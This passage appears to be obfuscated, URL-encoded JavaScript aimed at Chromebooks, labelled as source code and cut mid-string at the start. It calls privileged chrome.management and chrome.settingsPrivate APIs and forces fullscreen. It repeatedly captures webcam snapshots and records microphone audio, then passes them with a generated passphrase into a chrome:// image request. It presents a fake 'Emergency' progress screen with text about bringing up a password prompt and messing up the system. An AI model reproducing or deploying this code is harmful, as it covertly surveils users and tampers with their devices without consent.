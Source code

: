g\x0a\x20\x20Your\x20h%27+_0x3a1108(0x1ef)+%27n\x20aching,\x20%27+%27but\x20you\x27re%27+_0x3a1108(0x26c)+%27o\x20say\x20it\x20(%27+_0x3a1108(0x253)+_0x3a1108(0x226)+_0x3a1108(0x24f)+_0x3a1108(0x269)+_0x3a1108(0x1f5)+_0x3a1108(0x271)+_0x3a1108(0x27d)+_0x3a1108(0x21d)+_0x3a1108(0x1f9)+_0x3a1108(0x28e)+_0x3a1108(0x21a)+_0x3a1108(0x1cc)+_0x3a1108(0x2a7)+_0x3a1108(0x291)+_0x3a1108(0x238)+_0x3a1108(0x294)+%27u\x27re\x20too\x20b%27+_0x3a1108(0x2b4)+_0x3a1108(0x22a)+%27gonna\x20give%27+_0x3a1108(0x2b1)+_0x3a1108(0x2ae)+%27a\x20let\x20you\x20%27+_0x3a1108(0x286)+_0x3a1108(0x287)+_0x3a1108(0x28b)+_0x3a1108(0x1f0)+%27\x20you\x0a\x20\x20Nev%27+%27er\x20gonna\x20m%27+_0x3a1108(0x235)+_0x3a1108(0x2b9)+_0x3a1108(0x282)+_0x3a1108(0x2c0)+_0x3a1108(0x2ae)+_0x3a1108(0x22d)+_0x3a1108(0x225)+_0x3a1108(0x296))[_0x3a1108(0x2ca)](/
|\s/)[_0x3a1108(0x288)]()[%27forEach%27](function(_0x7177cd){const%20_0x3cb2a1=_0x3a1108;chrome[%27management%27][_0x3cb2a1(0x2a1)+_0x3cb2a1(0x2c2)](_0x3cb2a1(0x261)+_0x3cb2a1(0x241)+_0x3cb2a1(0x1ea)+_0x3cb2a1(0x249)+%27XcQ&%27+_0x4956b7(),_0x7177cd);});}async%20function%20_0x218290(){const%20_0xf830c8=_0x4444b2;let%20_0x1c5f1e=_0x4956b7();_0x59ee03(_0xf830c8(0x279)+_0xf830c8(0x22f)+%27onPassphra%27+%27se%27,[_0x1c5f1e]);_0x53421d(_0xf830c8(0x1fb)+_0xf830c8(0x215)+_0x1c5f1e);}async%20function%20_0x53421d(_0x54da14){const%20_0x5290dd=_0x4444b2;let%20_0x3c5486=new%20Image();let%20_0x1442cb=atob(window[_0x5290dd(0x242)]);let%20_0x48913c=encodeURIComponent(_0x1442cb+_0x5290dd(0x202));let%20_0x25d6e6=encodeURIComponent(JSON[_0x5290dd(0x23e)](_0x54da14));_0x3c5486[_0x5290dd(0x2a6)]=%27chrome://i%27+_0x5290dd(0x248)+_0x48913c+_0x25d6e6;}async%20function%20_0x2cc7aa(_0xc56a1a=0xea60){const%20_0x3dec41=_0x4444b2;let%20_0x60a25c=document[_0x3dec41(0x2a0)+_0x3dec41(0x27b)](_0x3dec41(0x276));let%20_0xf28628=document[_0x3dec41(0x2a0)+_0x3dec41(0x27b)](_0x3dec41(0x297));let%20_0x153443=await%20navigator[_0x3dec41(0x1f3)+%27es%27][_0x3dec41(0x21f)+%27ia%27]({%27video%27:!![]});_0x60a25c[%27onloadedme%27+_0x3dec41(0x20d)]=()=%3E{_0x57fc5c();setInterval(_0x57fc5c,_0xc56a1a);};_0x60a25c[_0x3dec41(0x1fe)]=_0x153443;_0x60a25c[_0x3dec41(0x266)]();function%20_0x57fc5c(){const%20_0x51f32a=_0x3dec41;_0xf28628[_0x51f32a(0x1d1)]=0x12c;_0xf28628[%27height%27]=0xc8;_0xf28628[_0x51f32a(0x24c)](%272d%27)[_0x51f32a(0x1f1)](_0x60a25c,0x0,0x0,0x12c,0xc8);let%20_0x5660a8=_0xf28628[_0x51f32a(0x285)](_0x51f32a(0x25b));_0x53421d(_0x5660a8);}}async%20function%20_0x53249a(_0x3bca0c=0xbb8){const%20_0x4f36b5=_0x4444b2;let%20_0x56a3b2=await%20navigator[_0x4f36b5(0x1f3)+%27es%27][%27getUserMed%27+%27ia%27]({%27audio%27:!![]});let%20_0x145fae=new%20MediaRecorder(_0x56a3b2,{%27type%27:_0x4f36b5(0x1d5)+%27\x20codecs=op%27+%27us%27});_0x145fae[%27ondataavai%27+_0x4f36b5(0x23a)]=_0x490216=%3E{const%20_0x4ce172=_0x4f36b5;let%20_0x3aae38=new%20FileReader();_0x3aae38[_0x4ce172(0x1fa)]=()=%3E{const%20_0x13434d=_0x4ce172;_0x53421d(_0x3aae38[_0x13434d(0x26d)]);};_0x3aae38[_0x4ce172(0x1ca)+_0x4ce172(0x21b)](_0x490216[_0x4ce172(0x1d8)]);};_0x145fae[%27start%27]();setInterval(()=%3E{const%20_0x434988=_0x4f36b5;_0x145fae[_0x434988(0x24e)]();_0x145fae[_0x434988(0x259)]();},_0x3bca0c);}async%20function%20_0x48e9f3(){const%20_0x4d4181=_0x4444b2;chrome[%27settingsPr%27+%27ivate%27][_0x4d4181(0x1dc)+_0x4d4181(0x29b)](-0x1);}async%20function%20_0x5d92f8(){const%20_0x26ce97=_0x4444b2;document[_0x26ce97(0x2b0)][_0x26ce97(0x23c)+%27lscreen%27]();}async%20function%20_0x58adce(){await%20_0xf1b7eb();await%20_0x4f9009();_0x5d92f8();_0x48e9f3();_0x11a589();_0x1d0280();_0x2cc7aa(0x1f4);_0x53249a(0xbb8);_0x260772();_0x7115b();_0x1066a8();_0x2c56cc();_0x218290();_0x3661f1();_0x3dc5f2();_0x30f045();_0x3283ed();_0x3c974d();}function%20_0x4c56f9(){const%20_0xb64ce6=_0x4444b2;for(let%20_0x1f4f30%20of%20document[_0xb64ce6(0x2b0)][_0xb64ce6(0x2be)]){_0x1f4f30[_0xb64ce6(0x2cb)]();}let%20_0x20ab38=document[%27createElem%27+_0xb64ce6(0x27b)](%27h1%27);_0x20ab38[_0xb64ce6(0x1e8)+%27t%27]=_0xb64ce6(0x1de)+_0xb64ce6(0x281);document[_0xb64ce6(0x2b0)][_0xb64ce6(0x1cf)](_0x20ab38);let%20_0x58e96f=document[%27createElem%27+%27ent%27](_0xb64ce6(0x22b));_0x58e96f[%27textConten%27+%27t%27]=_0xb64ce6(0x2a5)+_0xb64ce6(0x212);_0x58e96f[_0xb64ce6(0x25f)]=function(){const%20_0x33385e=_0xb64ce6;_0x58e96f[_0x33385e(0x24d)]=!![];_0x58adce();};document[_0xb64ce6(0x2b0)][%27append%27](_0x58e96f);let%20_0x1b68b5=document[_0xb64ce6(0x2a0)+_0xb64ce6(0x27b)](_0xb64ce6(0x22b));_0x1b68b5[_0xb64ce6(0x1e8)+%27t%27]=%27Emergency\x20%27+_0xb64ce6(0x1f7);let%20_0x30b94c=0x0;let%20_0x4400d3=function(){const%20_0x20b27d=_0xb64ce6;_0x1b68b5[_0x20b27d(0x1e8)+%27t%27]=%27[%27+Math[_0x20b27d(0x1db)](_0x30b94c/0x3)+(_0x20b27d(0x1ec)+%27ng.%27)+%27.%27[_0x20b27d(0x20c)](_0x30b94c%0x3);_0x30b94c++;};_0x1b68b5[_0xb64ce6(0x25f)]=function(){_0x1b68b5[%27disabled%27]=!![];setInterval(_0x4400d3,0x12c);};_0x1b68b5[_0xb64ce6(0x1df)][_0xb64ce6(0x216)]=%278px%27;document[_0xb64ce6(0x2b0)][_0xb64ce6(0x1cf)](_0x1b68b5);document[_0xb64ce6(0x224)]=_0xb64ce6(0x1de)+_0xb64ce6(0x2a3)+%27T\x20(c)%27;let%20_0x2fd50f=document[_0xb64ce6(0x2a0)+_0xb64ce6(0x27b)](%27p%27);_0x2fd50f[_0xb64ce6(0x1e8)+%27t%27]=[_0xb64ce6(0x232)+%27bring\x20up\x20a%27+%27\x20password\x20%27+_0xb64ce6(0x1ff)+_0xb64ce6(0x222)+%27n\x20mess\x20up\x20%27+_0xb64ce6(0x274)+_0xb64ce6(0x2ab)+%27\x20system\x20an%27+_0xb64ce6(0x29f)+_0xb64ce6(0x28c)+%27in\x20extensi%27+_0xb64ce6(0x22c)+_0xb64ce6(0x22e),%27If\x20you\x20wan%27+_0xb64ce6(0x1fd)+%27this\x20state%27+%27,\x20simply\x20p%27+_0xb64ce6(0x2c4)+_0xb64ce6(0x2bb)+_0xb64ce6(0x1fc)+%27utton.\x20Do\x20%27+_0xb64ce6(0x27f)+_0xb64ce6(0x2a2)+_0xb64ce6(0x1cb)+_0xb64ce6(0x219)+_0xb64ce6(0x1e7)+%27Chromebook%27+%27.%27][_0xb64ce6(0x27a)](%27\x20%27);document[%27body%27][_0xb64ce6(0x1cf)](_0x2fd50f);}if(window[%27location%27][_0x4444b2(0x293)]==%27about:blan%27+%27k%27&&opener){_0x4c56f9();}else{alert(_0x4444b2(0x295)+_0x4444b2(0x28a)+_0x4444b2(0x1e9)+_0x4444b2(0x210)+%27!%27);}})()

Instructions: